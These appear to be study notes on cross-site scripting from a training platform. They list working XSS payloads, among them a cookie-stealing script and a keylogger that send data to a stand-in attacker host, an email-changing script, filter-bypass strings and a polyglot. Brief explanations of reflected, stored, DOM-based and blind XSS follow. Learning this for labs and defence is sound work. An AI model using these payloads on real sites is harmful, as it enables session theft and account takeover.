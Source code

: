 <h2>Payloads</h2>
1. Proof of concept
	`<script>alert('XSS');</script>`
2. Session Stealing
	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
3. Key Logger
	``<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
4. Business Logic
	`<script>user.changeEmail('attacker@hacker.thm');</script>`

To bypass filters:
1. Close tags.
2. `';alert("a");//`
3. Add script in tag (<sscriptcript>...</sscriptcript>)
4. `" onload="alert('a');`
5. Polyglot:   ``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=~~COD AICI~~//>\x3e``


<h4>Reflected XSS</h4> 
Put scirpt in url parameter that appears directly on page then send the link to a victim.
<h4>Stored XSS</h4>
You put script in something stored on a database(comments, user profile, listings, etc). This code is then run on every user which sees it. 
For example, if an age field expects a integer from a dropdown menu you can submit a script directly through a POST request.

<h4>DOM Based XSS</h4>
JS execution directly in browser without any new pages
Example: JS gets contents from a parameter and writes them to the currently being viewed section. The contents can be malicious code which are written on the page.

Check for parts of scripts that access variables you have control over(window.location.x) and see if they are written to the page or passed to unsafe functions such as eval()

<h4>Blind XSS</h4>Similar to Stored XSS, only the script is not accessible by you. You have to wait and check for when someone(an admin) sees the script.

Popular tool: XSS Hunter Express